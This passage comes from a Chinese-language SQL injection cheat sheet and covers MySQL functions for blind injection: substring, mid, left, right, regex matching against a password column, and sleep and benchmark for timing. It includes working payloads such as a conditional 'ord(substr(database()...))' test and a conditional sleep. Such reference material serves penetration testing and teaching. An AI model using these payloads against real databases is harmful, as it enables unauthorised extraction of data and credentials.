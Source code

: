 `substring(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substring(str from pos for length)` ：可以用在过滤了 `,` 的情况

注意：pos 从 1 开始

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>id=1 and if(ord(substr(database(),1,1))=116,1,0)%23<br>select substring(database(), from 1 for 1)<br>select substring(database(), 0, 1)<br>``` |

**mid 函数**

`mid(str, pos, length)`

`mid(str from pos for length)`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>select mid(database(), from 1 for 1)<br>select mid(database(), 1, 1)<br>``` |

**left 函数**

从左开始截取字符串

`left(str, len)`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select left(database(), 1)<br>``` |

**right 函数**

从右开始截取字符串

`right(str, len)`

**利用正则表达式逐位匹配**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>select * from wp_user_ where password rlike "^1"<br>select * from wp_user_ where password REGEXP "^1"<br>select * from wp_user_ where password REGEXP "^12"<br>...<br>``` |

#### [](#524-%E5%BB%B6%E6%97%B6%E5%87%BD%E6%95%B0)5.2.4 延时函数

`sleep(n)`：程序挂起 n 秒

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>if(ascii(substr(database() from 0))=97, sleep(3),0)<br>``` |

`benchmark(count, sha(1))`：执行 sha(1) 函数 count 次达到延时的目的

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT BENCHMARK(10000000, sha(1))<br>``` |
